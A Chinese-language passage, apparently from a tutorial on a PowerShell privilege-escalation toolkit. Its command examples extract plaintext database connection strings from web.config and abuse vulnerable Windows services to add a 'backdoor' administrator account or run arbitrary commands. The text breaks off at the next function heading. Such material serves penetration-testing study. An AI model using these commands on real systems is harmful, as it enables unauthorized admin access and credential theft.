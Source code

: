 **Get-Webconfig**

返回当前服务器上的web.config文件中的数据库连接字符串的明文。

执行方式：

```
PS C:\>get-webconfig  
PS C:\>get-webconfig | Format-Table -Autosize #列表显示

```

**Invoke-AllChecks**

执行所有的脚本来检查。

执行方式：

```
PS C:\> Invoke-AllChecks

```

![Alt text](http://drops.javaweb.org/uploads/images/db384ca17ccbe2b1fc7041f3fe5d4adb4599847e.jpg)

**Invoke-Service**

*   Invoke-ServiceDisable 禁用服务
*   Invoke-ServiceEnable 启用服务
*   Invoke-ServiceStart 启动服务
*   Invoke-ServiceStop 停止服务

执行方式为：

```
PS C:\> Invoke-ServiceDisable -ServiceName 服务名称。

```

*   Invoke-ServiceAbuse

用来通过修改服务添加用户到指定组，并可以通过定制-cmd参数触发添加用户的自定义命令。

执行方式:

```
PS C:\> Invoke-ServiceAbuse -ServiceName VulnSVC # 添加默认账号
PS C:\> Invoke-ServiceAbuse -ServiceName VulnSVC -UserName "TESTLAB\john" # 指定添加域账号
PS C:\> Invoke-ServiceAbuse -ServiceName VulnSVC -UserName backdoor -Password password -LocalGroup "Administrators" # 指定添加用户，用户密码以及添加的用户组。
PS C:\> Invoke-ServiceAbuse -ServiceName VulnSVC -Command "net ..." # 自定义执行命令

```

默认的账号可以通过修改默认参数来修改，如下图：

![Alt text](http://drops.javaweb.org/uploads/images/213a727de205ae0be414a5e3c9ef8a67c414464f.jpg)

**Restore-ServiceBinary**
